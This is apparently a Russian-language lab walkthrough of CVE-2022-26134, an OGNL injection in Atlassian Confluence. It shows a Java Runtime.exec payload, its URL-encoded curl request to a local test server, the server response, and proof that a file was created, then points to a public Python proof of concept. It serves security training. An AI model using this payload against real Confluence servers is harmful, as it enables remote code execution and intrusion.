 ## Задание 5
Мы можем воспользоваться тем фактом, что OGNL можно модифицировать; мы можем создать полезную нагрузку для тестирования и проверки на наличие эксплойтов.

Чтобы воспользоваться этой уязвимостью в OGNL , нам нужно сделать запрос HTTP GET и поместить нашу полезную нагрузку в URI . Например, мы можем поручить среде выполнения Java выполнить команду, например, создать файл на сервере:  ${@java.lang.Runtime@getRuntime().exec("touch /tmp/thm/")}/  .

Это должно быть URL-кодировано, как в следующем фрагменте ниже. Вы можете использовать этот веб-сайт, чтобы помочь URL-кодировать ваши полезные данные ( обратите внимание , что ваши curl полезные данные должны заканчиваться на завершающий символ /, а не на $2F):

Создание временного файла на сервере для доказательства уязвимости
cmnatic@thm-cve-2022-26134:~$ curl -v http://localhost:8090/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/thm%22%29%7D/
*   Trying 127.0.0.1:8090...
* TCP_NODELAY set
* Connected to localhost (127.0.0.1) port 8090 (#0)
> GET /%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/thm%22%29%7D/ HTTP/1.1
> Host: localhost:8090
> User-Agent: curl/7.68.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 302
< X-ASEN: SEN-L18512764
< X-Confluence-Request-Time: 1656845716316
< Set-Cookie: JSESSIONID=761E9FA42B315225C0B84B0BAC92B2B3; Path=/; HttpOnly
< X-XSS-Protection: 1; mode=block
< X-Content-Type-Options: nosniff
< X-Frame-Options: SAMEORIGIN
< Content-Security-Policy: frame-ancestors 'self'
< Location: /login.action?os_destination=%2F%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch+%2Ftmp%2Fthm%22%29%7D%2Findex.action&permissionViolation=true
< Content-Type: text/html;charset=UTF-8
< Content-Length: 0
< Date: Sun, 03 Jul 2022 10:55:17 GMT
<
* Connection #0 to host localhost left intact
cmnatic@thm-cve-2022-26134:~$

Глядя на сервер, мы видим, что он уязвим:

Создание временного файла на сервере для доказательства уязвимости
cmnatic@thm-cve-2022-26134:~$ ls /tmp
hsperfdata_confluence
thm
snap.lxd

Питон
Есть несколько работающих PoC-эксплойтов. В этой комнате я продемонстрирую PoC Сэми Юнси (Mwqda), написанный на Python и размещенный на GitHub .
